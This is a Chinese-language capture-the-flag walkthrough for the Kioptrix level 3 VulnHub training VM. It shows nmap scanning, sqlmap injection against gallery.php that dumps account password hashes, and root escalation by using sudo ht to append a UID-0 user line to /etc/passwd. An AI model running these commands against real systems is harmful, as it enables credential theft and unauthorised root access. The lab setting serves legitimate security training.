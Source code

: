 # Kioptrix3-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/kioptrix-level-12-3,24/

**Description**

It's been a while since the last Kioptrix VM challenge. Life keeps getting the way of these things you know.

After the seeing the number of downloads for the last two, and the numerous videos showing ways to beat these challenges. I felt that 1.2 (or just level 3) needed to come out. Thank you to all that downloaded and played the first two. And thank you to the ones that took the time to produce video solutions of them. Greatly appreciated.

As with the other two, this challenge is geared towards the beginner. It is however different. Added a few more steps and a new skill set is required. Still being the realm of the beginner I must add. The same as the others, there’s more then one way to “pwn” this one. There’s easy and not so easy. Remember… the sense of “easy” or “difficult” is always relative to ones own skill level. I never said these things were exceptionally hard or difficult, but we all need to start somewhere. And let me tell you, making these vulnerable VMs is not as easy as it looks…

Important thing with this challenge. Once you find the IP (DHCP Client) edit your hosts file and point it to kioptrix3.com

Under Windows, you would edit C:\Windows\System32\drivers\etc\hosts to look something like this:

```
# localhost name resolution is handled within DNS itself.
#   127.0.0.1 localhost
#   ::1 localhost127.0.0.1 static3.cdn.ubi.com

192.168.1.102 kioptrix3.com
```

Under Linux that would be /etc/hosts

There’s a web application involved, so to have everything nice and properly displayed you really need to this.

Hope you enjoy Kioptrix VM Level 1.2 challenge.

452 Megs

MD5 Hash : d324ffadd8e3efc1f96447eec51901f2

Have fun

Source: http://www.kioptrix.com/blog/?p=358

**知识点**
- SQL 注入
- ht 提权

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix3/1.png)

排除法,去掉自己、宿主机、网关, `192.168.141.146` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.146
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix3/2.png)

SSH 和 web,从 web 先入手,先按照要求修改 hosts 文件,访问 web 看看
```bash
echo "192.168.141.146 kioptrix3.com" >> /etc/hosts
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix3/3.png)

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix3/4.png)

看上去是用 lotusCMS 搭建的,先目录扫描看下
```
wfuzz -w /usr/share/wfuzz/wordlist/general/common.txt http://kioptrix3.com/FUZZ | grep 301
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix3/5.png)

有个 phpmyadmin,访问看看

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix3/6.png)

2.11.3 版本有个 CVE-2009-1151,实际测试并不能利用成功,没办法了,从其他地方入手吧

---

# 中期-漏洞利用

注意到主页下面有个链接指向 `http://kioptrix3.com/gallery/`

发现这里可以进行排序,对 id 参数测试 SQL 注入

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix3/7.png)

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix3/8.png)

这里可能存在 SQL 注入,直接 Sqlmap 跑起来
```
sqlmap -u http://kioptrix3.com/gallery/gallery.php?id=1%27 --current-db
sqlmap -u http://kioptrix3.com/gallery/gallery.php?id=1%27 -D gallery --tables
sqlmap -u http://kioptrix3.com/gallery/gallery.php?id=1%27 -D gallery -T dev_accounts --dump
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix3/9.png)

```
| 1  | dreg       | 0d3eccfb887aabd50f243b3f155c0f85 (Mast3r)   |
| 2  | loneferret | 5badcaf789d3d1d09794d8f021f40f0e (starwars) |
```

可以看到跑出2个账号组合,测试了一下，不能登录 web,想到之前扫出的 SSH,试了下登录成功,2个都可以登录

---

# 后期-提权

dreg 账号实在是没什么可利用的，loneferret 账号下有一些利用的点

```
sudo -l
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix3/10.png)

ht 是一个文本编辑器,尝试用它来提权
```
sudo ht /etc/passwd
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix3/11.png)

提示我需要设置 xtrem-color
```
export TERM=xterm-color
sudo ht /etc/passwd
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix3/12.png)

实际上这里我是一脸懵逼的,这玩意咋整啊

按 F3,打开文件,输入 /etc/passwd ,回车

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix3/13.png)

最末尾加上
```
test:sXuCKi7k3Xh/s:0:0::/root:/bin/bash
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix3/14.png)

按 F10,退出,记得保存
```
su test
toor
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix3/15.png)

提权成功,感谢 Kioptrix Team 制作靶机
